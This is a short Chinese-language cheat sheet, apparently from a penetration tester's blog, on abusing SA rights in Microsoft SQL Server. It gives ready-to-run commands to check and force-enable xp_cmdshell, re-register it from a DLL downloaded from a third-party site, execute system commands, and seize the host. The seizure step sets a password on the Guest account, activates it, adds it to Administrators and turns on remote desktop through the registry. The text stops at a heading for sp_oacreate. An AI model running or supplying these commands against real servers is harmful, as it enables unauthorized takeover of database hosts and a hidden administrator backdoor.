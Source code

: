![image-20230515213216038](../../../../../blog/source/images/image-20230515213216038-1694613900373.png)

## SA权限

### xp_cmdshell

- 是否开启

  ```mssql
  select count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell' 
  
  返回值为1 → 开启
  ```

- 强制开启

  ```mssql
  -- 将该选项的值设置为1
  execute('sp_configure "show advanced options",1')  
  -- 保存设置
  execute('reconfigure') 
  -- 将xp_cmdshell的值设置为1
  execute('sp_configure "xp_cmdshell", 1') 
  -- 保存设置
  execute('reconfigure')                             
  ```

- 恢复被删除的`xp_cmdshell`

  下载：https://cn.dll-files.com/xplog70.dll.html

  ```mssql
  Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
  ```

- 命令执行--有回显（返回命令结果）

  ```mssql
  execute('xp_cmdshell "whoami"') 
  ```

- 获得主机权限

  > 版本问题？？

  ```mssql
  exec xp_cmdshell 'net user Guest 123456'              --给guest用户设置密码
  exec xp_cmdshell 'net user Guest /active:yes'         --激活guest用户
  exec xp_cmdshell 'net localgroup administrators Guest /add'  --将guest用户添加到administrators用户组
  exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'        --开启3389端口
  ```



### sp_oacreate

- 是否开启
